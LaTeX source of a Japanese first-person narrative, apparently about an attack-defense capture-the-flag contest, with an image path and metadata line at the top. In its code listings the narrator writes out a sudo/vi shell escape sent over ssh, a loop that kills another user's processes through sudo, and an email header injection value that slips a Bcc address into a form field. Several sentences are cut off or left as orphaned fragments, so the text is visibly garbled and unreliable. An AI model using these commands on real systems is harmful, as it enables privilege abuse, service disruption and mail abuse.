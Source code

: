 うっ、ダメか……。

「おーぴー、ダメだ……」

「分かった、こっちでなんとかする」

おーぴーの期待に添えなかったのは残念だが、
これは恐らく敵もログインしていないのだろう。
昨日、Skypeの会議でおーぴーがフラッグワードを、
確かあれば、

\begin{lstlisting}
$ echo 'sudo -u stage5 /usr/vi -f^M:!echo FLAG >> FLAG' | ssh -t -t stage4@10.0.2.3
\end{lstlisting}

という感じ。
これが出来るのであれば、

\begin{lstlisting}[style=sh]
$ while (true)
do
	echo 'sudo -u stage5 pkill -u stage4' | ssh -t stage4@10.0.2.3;
	sleep 1
done
\end{lstlisting}

という感じで、ログインせずともプロセスは殺せるはず。
これならばPHPのプログラムで仮にプロセスが一発殺されても問題はない。
まあいいや。
とにかく。
俺は。

昨日編集部でメールサーバーは用意しておいた。
後はメールが届くかどうかを調べるだけ。
\url{http://10.0.2.5/message.html}へアクセスして、
に次のメールヘッダ汚染を仕掛ける。

\begin{lstlisting}
hoge%0D%0ABcc: m@192.168.7.4%0D%0A
\end{lstlisting}

これでメールが届けばいいが……。
とりあえず、メールボックスを見ても……来てない……。
これは遅延か失敗か。
どうする……？
もはや策がない……。
る。

長いサイレン音がして、一瞬戦慄した。
まさか？
どうやら落ちたのは。
。
 HTTPD\footnote{Windows向けのHTTPサーバー。\url{http://www.st.rim.or.jp/~nakata/}}%
が動作しているものだったはず。
これはちょっと良くないな。
5ポイント程度なので、
このままでは五分で15ポイント程度ずつ這い寄られることになる。

などと考えているとまたサイレン音が鳴り、
全てのチームが。
なんだと……。
いや、これはどう考えても。
全てのチームのフラッグワードは公開されているから、
奴等我々の収入を減らすために、
あえて他のチームのフラッグワードを。
こうすることで、我々が2ポイントになってしまった。
つまり、18ポイントずつ接近されていることになる。


